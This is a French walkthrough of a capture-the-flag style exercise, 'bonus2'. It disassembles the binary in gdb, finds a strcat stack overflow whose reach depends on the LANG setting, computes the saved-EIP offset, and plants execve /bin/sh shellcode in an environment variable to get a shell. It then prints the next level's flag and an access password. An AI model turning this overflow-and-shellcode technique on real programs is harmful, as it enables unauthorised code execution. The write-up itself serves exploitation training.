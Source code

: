# BONUS 2

On se connecte sur le bonus2, ou se trouve un **binaire** <code>bonus2</code>.

On cherche a savoir ce que fait ce binaire:

```gdb
> gdb -q bonus2
Dump of assembler code for function main:
   0x08048529 <+0>:     push   %ebp
   0x0804852a <+1>:     mov    %esp,%ebp
   0x0804852c <+3>:     push   %edi
   0x0804852d <+4>:     push   %esi
   0x0804852e <+5>:     push   %ebx
   0x0804852f <+6>:     and    $0xfffffff0,%esp
   0x08048532 <+9>:     sub    $0xa0,%esp
   0x08048538 <+15>:    cmpl   $0x3,0x8(%ebp)
   0x0804853c <+19>:    je     0x8048548 <main+31>
   0x0804853e <+21>:    mov    $0x1,%eax
   0x08048543 <+26>:    jmp    0x8048630 <main+263>
   0x08048548 <+31>:    lea    0x50(%esp),%ebx
   0x0804854c <+35>:    mov    $0x0,%eax
   0x08048551 <+40>:    mov    $0x13,%edx
   0x08048556 <+45>:    mov    %ebx,%edi
   0x08048558 <+47>:    mov    %edx,%ecx
   0x0804855a <+49>:    rep stos %eax,%es:(%edi)
   0x0804855c <+51>:    mov    0xc(%ebp),%eax
   0x0804855f <+54>:    add    $0x4,%eax
   0x08048562 <+57>:    mov    (%eax),%eax
   0x08048564 <+59>:    movl   $0x28,0x8(%esp)
   0x0804856c <+67>:    mov    %eax,0x4(%esp)
   0x08048570 <+71>:    lea    0x50(%esp),%eax
   0x08048574 <+75>:    mov    %eax,(%esp)
   0x08048577 <+78>:    call   0x80483c0 <strncpy@plt>
   0x0804857c <+83>:    mov    0xc(%ebp),%eax
   0x0804857f <+86>:    add    $0x8,%eax
   0x08048582 <+89>:    mov    (%eax),%eax
   0x08048584 <+91>:    movl   $0x20,0x8(%esp)
   0x0804858c <+99>:    mov    %eax,0x4(%esp)
   0x08048590 <+103>:   lea    0x50(%esp),%eax
   0x08048594 <+107>:   add    $0x28,%eax
   0x08048597 <+110>:   mov    %eax,(%esp)
   0x0804859a <+113>:   call   0x80483c0 <strncpy@plt>
   0x0804859f <+118>:   movl   $0x8048738,(%esp)
   0x080485a6 <+125>:   call   0x8048380 <getenv@plt>
   0x080485ab <+130>:   mov    %eax,0x9c(%esp)
   0x080485b2 <+137>:   cmpl   $0x0,0x9c(%esp)
   0x080485ba <+145>:   je     0x8048618 <main+239>
   0x080485bc <+147>:   movl   $0x2,0x8(%esp)
   0x080485c4 <+155>:   movl   $0x804873d,0x4(%esp)
   0x080485cc <+163>:   mov    0x9c(%esp),%eax
   0x080485d3 <+170>:   mov    %eax,(%esp)
   0x080485d6 <+173>:   call   0x8048360 <memcmp@plt>
   0x080485db <+178>:   test   %eax,%eax
   0x080485dd <+180>:   jne    0x80485eb <main+194>
   0x080485df <+182>:   movl   $0x1,0x8049988
   0x080485e9 <+192>:   jmp    0x8048618 <main+239>
   0x080485eb <+194>:   movl   $0x2,0x8(%esp)
   0x080485f3 <+202>:   movl   $0x8048740,0x4(%esp)
   0x080485fb <+210>:   mov    0x9c(%esp),%eax
   0x08048602 <+217>:   mov    %eax,(%esp)
   0x08048605 <+220>:   call   0x8048360 <memcmp@plt>
   0x0804860a <+225>:   test   %eax,%eax
   0x0804860c <+227>:   jne    0x8048618 <main+239>
   0x0804860e <+229>:   movl   $0x2,0x8049988
   0x08048618 <+239>:   mov    %esp,%edx
   0x0804861a <+241>:   lea    0x50(%esp),%ebx
   0x0804861e <+245>:   mov    $0x13,%eax
   0x08048623 <+250>:   mov    %edx,%edi
   0x08048625 <+252>:   mov    %ebx,%esi
   0x08048627 <+254>:   mov    %eax,%ecx
   0x08048629 <+256>:   rep movsl %ds:(%esi),%es:(%edi)
   0x0804862b <+258>:   call   0x8048484 <greetuser>
   0x08048630 <+263>:   lea    -0xc(%ebp),%esp
   0x08048633 <+266>:   pop    %ebx
   0x08048634 <+267>:   pop    %esi
   0x08048635 <+268>:   pop    %edi
   0x08048636 <+269>:   pop    %ebp
   0x08048637 <+270>:   ret
End of assembler dump.
```

Après analyse du fichier (**source.c**), on se rend compte que l'exploitation du fichier se fera par la fonction **strcat**.

Si la langue est set a 0 pendant l'overflow, seule la moitié de l'eip sera écrasée suite à la concaténation du **strcat**, on va donc devoir changer la langue pour pouvoir concaténer avec une chaine plus grande et écraser la totalité de l'eip.



```gdb
(gdb) > run AAAA BBBB
Starting program: /home/user/bonus2/bonus2 AAAA BBBB

Breakpoint 1, 0x08048522 in greetuser ()
(gdb) x/10x $eax
0xbffff630:     0xc3767948      0x20a4c3a4      0x69a4c370      0xc3a4c376
0xbffff640:     0x414120a4      0xb7004141      0x00000002      0xb7ec38ee
0xbffff650:     0xbffff688      0xbffff6d0
(gdb) > x/s 0xbffff630
0xbffff630:      "Hyv\303\244\303\244 p\303\244iv\303\244\303\244 AAAA"

(gdb) i f
Stack level 0, frame at 0xbffff680:
 eip = 0x8048522 in greetuser; saved eip 0x8048630
 called by frame at 0xbffff740
 Arglist at 0xbffff678, args:
 Locals at 0xbffff678, Previous frame's sp is 0xbffff680
 Saved registers:
  ebp at 0xbffff678, eip at 0xbffff67c

(gdb) p 0xbffff67c - 0xbffff630
$1 = 76
```

**OFFSET** = 76

Si on enlève les caractères déjà écrit dans le buffer par notre av[1] et la string "Hyv\303\244\303\244 p\303\244iv\303\244\303\244 AAAA" :

> Si **LANG**=fi :

76 - 18 (string de la langue) - 40 (notre av[1] remplie) = 18

> Si **LANG**=nl :
76 - 13 (string de la langue) - 40 (notre av[1] remplie) = 23

```shell
export LANG=fi
OU
export LANG=nl
```

On n'a pas la place dans la str pour utiliser une méthode ret2libc, donc on se tourne vers un shellcode:

```shell
export SHELLCODE=$(python -c "print '\x90'*100 + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'")

echo "#include <stdio.h>
#include <stdlib.h>
int main(){ printf(\"SHELL= %p\n\", getenv(\"SHELLCODE\")); return 0; }" > /tmp/getsh.c

cd /tmp/
gcc getsh.c
./a.out
SHELL= \x\x\x\x
cd
```
> On utilise donc le programme avec le premier argument plein, le second qui applique l'offset et l'adresse du shellcode.

(on utilise LANG=nl dans cet exemple)
<pre><code>./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * OFFSET + "\x\x\x\x"')
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBm���
> cd ../bonus3 && cat .pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
</code></pre>

For download :
<pre><code>scp -P4242 bonus2@IP:bonus2 .</code></pre>
> Password : 579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245